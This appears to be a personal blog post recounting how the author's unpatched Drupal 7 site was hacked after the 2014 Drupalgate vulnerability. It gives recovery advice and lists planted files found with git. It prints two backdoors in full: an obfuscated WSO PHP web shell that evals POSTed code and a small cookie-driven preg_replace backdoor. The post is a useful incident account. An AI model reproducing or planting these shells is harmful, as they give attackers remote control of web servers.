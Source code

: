 ```yaml
---
layout: post
title: '#Drupalgate How my Drupal blog was hacked?'
tags:
- drupal
- hackers
- drupal-7
- drupalgate
---
```


A few days ago Drupal released a [security upgrade](https://www.drupal.org/SA-CORE-2014-005) for Drupal 7. It is a one-line patch for what is the biggest vulnerability in Drupal's history. Just 7 hours after the announcment, websites started to register automated attacks. 

This blog was running Drupal 7 (is not anymore) and I just forgot to upgrade inmediatelly. The worst happened and my website was hacked.

I was using Git to manage the code on my blog, so I inmediatelly knew something was wrong when I saw new and modified files. If you're not using Git, then is going to be harder to detect the hack.

Using git I was able to identify that the following files changed:

    misc/dir.php
    modules/locale/a18h8n.php
    modules/simpletest/tqrp.php
    sites/all/libraries/tinymce/jscripts/tiny_mce/themes/advanced/skins/default/.option72.php
    sites/all/modules/media/templates/global97.php
    sites/all/modules/media_vimeo/includes/help.php
    sites/all/modules/metatag/metatag_opengraph/.login.php
    sites/all/modules/oauth/includes/footer.php
    sites/all/modules/views/modules/user/.inc76.php


If you know Drupal, you know inmediatelly that something is just plain wrong. It was even more obvious after I inspected some of the files:

		$ cat modules/locale/a18h8n.php
        <?php ${"\x47LOB\x41\x4c\x53"}["\x76\x72vw\x65y\x70\x7an\x69\x70\x75"]="a";${"\x47\x4cOBAL\x53"}["\x67\x72\x69u\x65\x66\x62\x64\x71c"]="\x61\x75\x74h\x5fpas\x73";${"\x47\x4cOBAL\x53"}["\x63\x74xv\x74\x6f\x6f\x6bn\x6dju"]="\x76";${"\x47\x4cO\x42A\x4cS"}["p\x69\x6fykc\x65\x61"]="def\x61ul\x74\x5fu\x73\x65_\x61j\x61\x78";${"\x47\x4c\x4f\x42\x41\x4c\x53"}["i\x77i\x72\x6d\x78l\x71tv\x79p"]="defa\x75\x6c\x74\x5f\x61\x63t\x69\x6f\x6e";${"\x47L\x4fB\x41\x4cS"}["\x64\x77e\x6d\x62\x6a\x63"]="\x63\x6fl\x6f\x72";${${"\x47\x4c\x4f\x42\x41LS"}["\x64\x77\x65\x6dbj\x63"]}="\x23d\x665";${${"\x47L\x4fB\x41\x4c\x53"}["\x69\x77\x69rm\x78\x6c\x71\x74\x76\x79p"]}="\x46i\x6cesM\x61n";$oboikuury="\x64e\x66a\x75\x6ct\x5fc\x68\x61\x72\x73\x65t";${${"\x47L\x4f\x42\x41\x4cS"}["p\x69oy\x6bc\x65\x61"]}=true;${$oboikuury}="\x57indow\x73-1\x325\x31";@ini_set("\x65r\x72o\x72_\x6cog",NULL);@ini_set("l\x6fg_er\x72ors",0);@ini_set("max_ex\x65\x63\x75\x74\x69o\x6e\x5f\x74im\x65",0);@set_time_limit(0);@set_magic_quotes_runtime(0);@define("WS\x4f\x5fVE\x52S\x49ON","\x32.5\x2e1");if(get_magic_quotes_gpc()){function WSOstripslashes($array){${"\x47\x4c\x4f\x42A\x4c\x53"}["\x7a\x64\x69z\x62\x73\x75e\x66a"]="\x61\x72r\x61\x79";$cfnrvu="\x61r\x72a\x79";${"GLOB\x41L\x53"}["\x6b\x63\x6ct\x6c\x70\x64\x73"]="a\x72\x72\x61\x79";return is_array(${${"\x47\x4cO\x42\x41\x4c\x53"}["\x7ad\x69\x7ab\x73\x75e\x66\x61"]})?array_map("\x57SOst\x72\x69\x70\x73\x6c\x61\x73\x68\x65s",${${"\x47\x4cO\x42\x41LS"}["\x6b\x63\x6c\x74l\x70\x64\x73"]}):stripslashes(${$cfnrvu});}$_POST=WSOstripslashes($_POST);$_COOKIE=WSOstripslashes($_COOKIE);}function wsoLogin(){header("\x48\x54TP/1.\x30\x204\x30\x34\x20\x4eo\x74 \x46ound");die("4\x304");}function WSOsetcookie($k,$v){${"\x47\x4cO\x42ALS"}["\x67vf\x6c\x78m\x74"]="\x6b";$cjtmrt="\x76";$_COOKIE[${${"G\x4c\x4f\x42\x41LS"}["\x67\x76\x66\x6cxm\x74"]}]=${${"GLO\x42\x41\x4cS"}["\x63\x74\x78\x76t\x6f\x6fknm\x6a\x75"]};$raogrsixpi="\x6b";setcookie(${$raogrsixpi},${$cjtmrt});}$qyvsdolpq="a\x75\x74\x68\x5f\x70\x61s\x73";if(!empty(${$qyvsdolpq})){$rhavvlolc="au\x74h_\x70a\x73\x73";$ssfmrro="a\x75t\x68\x5fpa\x73\x73";if(isset($_POST["p\x61ss"])&&(md5($_POST["pa\x73\x73"])==${$ssfmrro}))WSOsetcookie(md5($_SERVER["H\x54\x54P_\x48\x4f\x53T"]),${${"\x47L\x4f\x42\x41\x4c\x53"}["\x67\x72\x69\x75e\x66b\x64\x71\x63"]});if(!isset($_COOKIE[md5($_SERVER["\x48T\x54\x50\x5f\x48O\x53\x54"])])||($_COOKIE[md5($_SERVER["H\x54\x54\x50_H\x4fST"])]!=${$rhavvlolc}))wsoLogin();}function actionRC(){if(!@$_POST["p\x31"]){$ugtfpiyrum="a";${${"\x47\x4c\x4fB\x41LS"}["\x76r\x76w\x65\x79\x70z\x6eipu"]}=array("\x75n\x61m\x65"=>php_uname(),"p\x68\x70\x5fver\x73\x69o\x6e"=>phpversion(),"\x77s\x6f_v\x65\x72si\x6f\x6e"=>WSO_VERSION,"saf\x65m\x6f\x64e"=>@ini_get("\x73\x61\x66\x65\x5fm\x6fd\x65"));echo serialize(${$ugtfpiyrum});}else{eval($_POST["\x70\x31"]);}}if(empty($_POST["\x61"])){${"\x47L\x4fB\x41LS"}["\x69s\x76\x65\x78\x79"]="\x64\x65\x66\x61\x75\x6ct\x5f\x61c\x74i\x6f\x6e";${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x75\x6f\x65c\x68\x79\x6d\x7ad\x64\x64"]="\x64\x65\x66a\x75\x6c\x74_\x61\x63\x74\x69\x6fn";if(isset(${${"\x47L\x4f\x42\x41LS"}["\x69\x77ir\x6d\x78lqtv\x79\x70"]})&&function_exists("\x61ct\x69\x6f\x6e".${${"\x47L\x4f\x42\x41\x4cS"}["\x75o\x65ch\x79\x6d\x7a\x64\x64\x64"]}))$_POST["a"]=${${"\x47\x4c\x4f\x42ALS"}["i\x73\x76e\x78\x79"]};else$_POST["a"]="\x53e\x63\x49\x6e\x66o";}if(!empty($_POST["\x61"])&&function_exists("actio\x6e".$_POST["\x61"]))call_user_func("\x61\x63\x74\x69\x6f\x6e".$_POST["a"]);exit;

I don't know what that file is doing, but I'm 100% sure is not a good thing.

Other files looked like this:

	$ cat modules/simpletest/tqrp.php
    <?php $form1=@$_COOKIE["Kcqf3"]; if ($form1){ $opt=$form1(@$_COOKIE["Kcqf2"]); $au=$form1(@$_COOKIE["Kcqf1"]); $opt("/292/e",$au,292); } phpinfo();
    
Again, that's not good.

###### What to do?

The Drupal Security Team recommends a series of steps to take. First, they tell you that you should assume that you were hacked if you didn't upgrade on time. Second, they recommend that you to turn off the website and recreate it by restoring a backup of your database and your files. If you're running Drupal 7, and you haven't read the Security Announcement, you should read it ASAP https://www.drupal.org/PSA-2014-003

I saw this as an oportunity to migrate from Drupal to another platform because I'm tired of maintaining my blog so I decided to give Ghost.io a chance.

After dumping the database, I uploaded the database to my local machine and I created a module that exports all content to a JSON file that I used to upload everything to Ghost.io. Creating and debugging the module took about 2 hours and uploading the file took only a few seconds.

I'm [releasing](https://github.com/luiselizondo/drupal-to-ghost) the module as Open Source in case you want to migrate your site to Ghost. The module is not something that you can just install and use, you'll probabbly want to configure and tweek some things, and it only allows you to export one content type. Ghost.io is just a blogging platform so it may not be an option to you.

###### Recommendations
If you have any doubts or you don't know if you were victim of #Drupalgate, I recommend that you look for the files I mentioned earlier. The database might be compromised too but in my case, I didn't find anything to suggest that it was.

If you're not using Git, you should. It literally took me 2 seconds to realise my blog was hacked because Git tells you what files changed since your last commit.

Finally, if you use the same password on your Drupal site and somewhere else, change it, is very likelly that is is compromised.